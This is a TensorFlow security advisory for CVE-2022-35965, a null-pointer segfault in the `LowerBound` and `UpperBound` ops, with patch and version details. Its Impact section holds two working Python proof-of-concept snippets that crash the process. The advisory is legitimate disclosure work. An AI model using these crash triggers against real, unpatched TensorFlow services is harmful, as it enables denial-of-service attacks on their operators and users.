 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-097.md
## TFSA-2022-097: Segfault in `LowerBound` and `UpperBound`

### CVE Number
CVE-2022-35965

### Impact
If `LowerBound` or `UpperBound` is given an empty`sorted_inputs` input, it results in a `nullptr` dereference, leading to a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.int32
sorted_inputs = tf.constant([], shape=[10,0], dtype=tf.float32)
values = tf.constant([], shape=[10,10,0,10,0], dtype=tf.float32)
tf.raw_ops.LowerBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```
```python
import tensorflow as tf

out_type = tf.int64
sorted_inputs = tf.constant([], shape=[2,2,0,0,0,0,0,2], dtype=tf.float32)
values = tf.constant(0.372660398, shape=[2,4], dtype=tf.float32)
tf.raw_ops.UpperBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [bce3717eaef4f769019fd18e990464ca4a2efeea](https://github.com/tensorflow/tensorflow/commit/bce3717eaef4f769019fd18e990464ca4a2efeea).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
